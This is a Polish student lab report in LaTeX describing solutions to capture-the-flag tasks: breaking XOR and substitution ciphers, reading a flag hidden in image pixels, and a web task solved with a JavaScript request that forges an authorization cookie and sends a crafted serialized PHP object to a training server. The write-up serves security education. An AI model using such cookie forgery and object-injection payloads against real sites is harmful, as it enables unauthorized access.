\documentclass[12pt,a4paper,titlepage]{article}
\usepackage[utf8]{inputenc}
\usepackage{polski}
\usepackage{listings}
\usepackage{graphicx}
\usepackage{xcolor}
\usepackage{minted}
\usepackage{amsmath}
\usepackage{caption}
\usepackage{hyperref} 

\renewcommand\listoflistingscaption{Spis listingów}

\setminted{
    autogobble,
    breaklines,
    framerule=1pt,
    framesep=10pt
}

\newenvironment{longlisting}{}{}

\makeatletter
\newcommand{\linia}{\rule{\linewidth}{0.4mm}}
\renewcommand{\maketitle}{\begin{titlepage}
    \vspace*{1cm}
    \begin{center}\small
    Politechnika Wrocławska\\
    Wydział Elektroniki\\
    Bezpieczeństwo Systemów i Usług Informatycznych 2
    \end{center}
    \vspace{3cm}
    \noindent\linia
    \begin{center}
      \LARGE \textsc{\@title}
         \end{center}
     \linia
    \vspace{0.5cm}
    \begin{flushright}
    \begin{minipage}{7cm}
    \textit{\small Autor:}\\
    \normalsize \textsc{\@author} \par
    \end{minipage}
    \vspace{5cm}

     {\small wtorek, 11\textsuperscript{15}-14\textsuperscript{00} TN}\\
        mgr inż. Przemysław Świercz
     \end{flushright}
    \vspace*{\stretch{6}}
    \begin{center}
    \@date
    \end{center}
  \end{titlepage}%
}
\makeatother
\author{Justyna Skalska, 225942}
\title{Sprawozdanie nr 3\\
(stary.rozwal.to)}

\begin{document}

\maketitle

\tableofcontents 
\newpage

\section{Omówienie tematu}
Naszym zadaniem podczas laboratorium było rozwiązanie kilku zadań przedstawiających słabości niektórych systemów. Każde poprawnie rozwiązanie polecenie kończyło się uzyskaniem flagi o formacie: "ROZWAL\_\{kod-zadania\}". Musieliśmy rozwiązać minimum trzy zadania z działu Crypto. Polecenia znajdują się na stronie \url{https://stary.rozwal.to/}.

\section{Omówienie rozwiązania}

\subsection{Crypto}
\subsubsection{Bob uwielbia xorować}
To zadanie polegało na znalezieniu klucza, którym zaszyfrowana była wiadomość. Była ona zaszyfrowana jedno-bajtowym szyfrem XOR. W tym poleceniu wykorzystałam metodę przeglądu zupełnego (\textit{ang. brute force}). Polegała ona na deszyfrowaniu wiadomości jedno-bajtowymi kluczami o wartościach od 0 do 255. Wykonywanie programu kończyło się w momencie, gdy w odszyfrowanej wiadomości znajdowało się słowo "ROZWAL". Wiadomo wtedy było, że wiadomość została odszyfrowana poprawnie.

\begin{listing}[H]
\caption{Funkcja deszyfrująca wiadomość zaszyfrowaną jedno-bajtowym szyfrem XOR.}
\begin{minted}{Java}
private static String decrypt(final String message,
                              final char key) {
    final StringBuilder outputString = new StringBuilder();
    final int len = message.length();
    for (int i = 0; i < len; i++) {
        outputString.append((char) (message.charAt(i) ^ key));
    }
    return outputString.toString();
}
\end{minted}
\end{listing}

\begin{listing}[H]
\caption{Funkcja zwracająca flagę z wiadomości zaszyfrowanej jedno-bajtowym szyfrem XOR.}
\begin{minted}{Java}
public static void main(String... args) {
    final String decoded = new String(Base64.getDecoder().decode(BASE64_MESSAGE));
    for (int i = 0; i < 256; i++) {
        final String decrypted = decrypt(decoded, (char) i);
        if (decrypted.contains("ROZWAL")) {
            System.out.println(decrypted);
            return;
        }
    }
}
\end{minted}
\end{listing}

\subsubsection{Alice też xoruje}

Podczas tego zadania należało rozszyfrować wiadomość zaszyfrowaną szyfrem XOR wykorzystującym nieznany nam klucz. Na początku trzeba było znaleźć ten klucz wykorzystując dane zawarte w wiadomości. Pozwoliło to na deszyfrowanie wiadomości i odczytanie zapisanej w niej flagi.

\begin{listing}[H]
\caption{Główna funkcja programu deszyfrującego wiadomość zaszyfrowaną szyfrem XOR.}
\begin{minted}{Java}
public static void main(String... args) {
    final byte[] decoded = Base64.getDecoder().decode(BASE64_MESSAGE);
    final byte[] key = searchKey(decoded);
    final String decrypted = decrypt(decoded, key);
    System.out.println(decrypted);
}
\end{minted}
\end{listing}

\begin{listing}[H]
\caption{Funkcja deszyfrująca wiadomość zaszyfrowaną szyfrem XOR.}
\begin{minted}{Java}
private static String decrypt(final byte[] message,
                              final byte[] key) {
    byte[] decrypted = new byte[message.length];
    int i = 0;
    while (i < message.length) {
        for (int k = 0; k < key.length && i < message.length; i++, k++) {
            decrypted[i] = (byte) (message[i] ^ key[k]);
        }
    }
    return new String(decrypted);
}
\end{minted}
\end{listing}

\begin{listing}[H]
\caption{Funkcja znajdująca klucz szyfrujący dla wiadomości zaszyfrowanej szyfrem XOR.}
\begin{minted}{Java}
private static byte[] searchKey(byte[] message) {
    int[] changesArray = new int[message.length];
    int[] number = new int[message.length];
    for (int i = 0; i < message.length; i++) {
        changesArray[i] = i + 1;
        number[i] = 0;
    }

    countNumberOfShifts(message, changesArray, number);
    sortArraysShiftAndNumber(changesArray, number);

    int keyLength = GCD(changesArray[0], GCD(changesArray[1], changesArray[2]));
    byte[] result = new byte[keyLength];

    for (int i = 0; i < keyLength; i++) {
        result[i] = searchKeyLetter(i, keyLength, message);
    }
    return result;
}
\end{minted}
\end{listing}

\subsubsection{Cweyk funcbjqlsiluqe}
Podczas wykonywania tego zadania należało zauważyć, że jest to szyfr podstawieniowy. Dzięki temu bardzo proste było napisanie funkcji zamieniającej pojedyncze znaki na ich odkodowaną postać. Wykorzystałam do tego mapę zawierającą litery alfabetu oraz odpowiadające im litery szyfru. Klucze oraz wartości w mapie zostały przeze mnie zamienione miejscami na początku funkcji, aby mieć łatwiejszy dostęp do zaszyfrowanych wartości podczas deszyfrowania wiadomości. Po wykonaniu programu wyświetlony został długi tekst zawierający flagę do tego zadania.

\begin{listing}[H]
\caption{Mapa zawierająca litery alfabetu oraz odpowiadające im litery szyfru}
\begin{minted}{Java}
private static final Map<Character, Character> CIPHER = Map.ofEntries(
    new AbstractMap.SimpleEntry<>('a', 'j'),
    new AbstractMap.SimpleEntry<>('b', 'z'),
    // pozsotałe litery...
    new AbstractMap.SimpleEntry<>('y', 'e'),
    new AbstractMap.SimpleEntry<>('z', 'w')
);
\end{minted}
\end{listing}

\begin{listing}[H]
\caption{Funkcja deszyfrująca wiadomość zaszyfrowaną monoalfabetycznym szyfrem podstawieniowym.}
\begin{minted}{Java}
private static String decrypt(final String message, final Map<Character, Character> cipher) {
  final Map<Character, Character> invertedCipher = invertCipher(cipher);
  final StringBuilder decrypted = new StringBuilder();
  for (char letter : message.toCharArray()) {
    final char lowercaseLetter = Character.toLowerCase(letter);
    if (CIPHER.containsValue(lowercaseLetter)) {
      if (Character.isUpperCase(letter)) {
        decrypted.append(Character
          .toUpperCase(invertedCipher.get(lowercaseLetter)));
      } else {
        decrypted.append(invertedCipher.get(lowercaseLetter));
      }
    } else {
      decrypted.append(letter);
    }
  }
  return decrypted.toString();
}
\end{minted}
\end{listing}

\subsection{ROZWAL.TO Starter}
\subsubsection{Steganografia}
Zadanie to polegało na znalezieniu flagi zakodowanej w obrazku. Znajdowała się ona w lewym górnym rogu i składała się z około 20 różnokolorowych pikseli ułożonych w rzędzie. Należało zauważyć, że kolor niebieski w modelu RGB przyjmował tylko wartości 0 oraz 127. Kolory, gdzie wartość niebieskiego wynosiła 127 tworzyły flagę. Można było ją odczytać odejmując od siebie wartości koloru czerwonego oraz zielonego, a następnie zamienić je na znaki ASCII. Trzeba było zawsze odjąć mniejszą wartość od większej.

\begin{figure}[H]
  
\includegraphics[width=\linewidth]{stegano.png}
  \caption{Obrazek z zakodowaną flagą.}
  \label{fig:punkty}
\end{figure}

\begin{listing}[H]
\caption{Funkcja zwracająca flagę z obrazka.}
\begin{minted}{Java}
private static String readFlag(final BufferedImage image) {
  final StringBuilder flag127 = new StringBuilder();
  for (int x = 0; x < image.getWidth(); x++) {
    for (int y = 0; y < image.getHeight(); y++) {
      final Color color = new Color(image.getRGB(x, y));
      if (127 == color.getBlue()) {
        final char ch;
        if (color.getRed() < color.getGreen()) {
          ch = (char) (color.getRed() + color.getGreen());
        } else {
          ch = (char) (color.getRed() - color.getGreen());
        }
          flag127.append(ch);
        }
      }
  }
  return flag127.toString();
}
\end{minted}
\end{listing}

\subsubsection{Tryb GOD}
Zadanie to wymagało stworzenia prostego asynchronicznego żądania wysyłanego na adres zadania. Na początku aplikacja prosiła o skorzystanie z trybu \mintinline{JS}{"GOD"}. W tym kroku należało w zapytaniu zmienić metodę na \mintinline{JS}{"GOD"}. Następnie okazało się, że wysyłane żądanie musiało być asynchroniczne. Wystarczyło wtedy dodać odpowiedni nagłówek. Ostatnim krokiem było wysłanie parametru \mintinline{JS}{data} zawierającego zserializowany obiekt PHP. Dzięki przesłaniu obiektu zawierającego odpowiednie parametry otrzymałam flagę zadania.

\begin{listing}[H]
\caption{Funkcja zwracająca flagę z odpowiedzi do zapytania.}
\begin{minted}{JS}
await (async function () {
    document.cookie = 'authorize=true';
    const url = 'http://training.securitum.com/rozwal/webapp3
    /?data=O:1:\"T\":1:{s:10:\"�T�allowed\";i:1;}';
    const response = await fetch(url, {
        method: 'GOD',
        headers: {
            'X-Requested-With': 'XMLHttpRequest'
        },
    });
    return await response.text();
})();
\end{minted}
\end{listing}

\section{Wnioski}
Udało mi się wykonać pięć zadań. Trzy z działu Crypto oraz dwie z działu ROZWAL.TO Starter. Łącznie zebrana przeze mnie liczba punktów za rozwiązane polecenia wynosiła 516.

\begin{figure}[H]
  
\includegraphics[width=\linewidth]{stary-rozwal-to.png}
  \caption{Uzyskane punkty.}
  \label{fig:punkty}
\end{figure}

Był to bardzo ciekawy trening pokazujący jak łatwo można wykorzystać błędy i luki systemów. W trakcie wykonywania tego ćwiczenia przydały mi się wcześniej nabyte umiejętności związane z językiem Java oraz JavaScript, a także znajomość RESTa oraz narzędzi przeglądarki. Musiałam także poczytać o stenografii oraz szyfrowaniu algorytmem XOR.

\listoffigures
\listoflistings
\end{document}
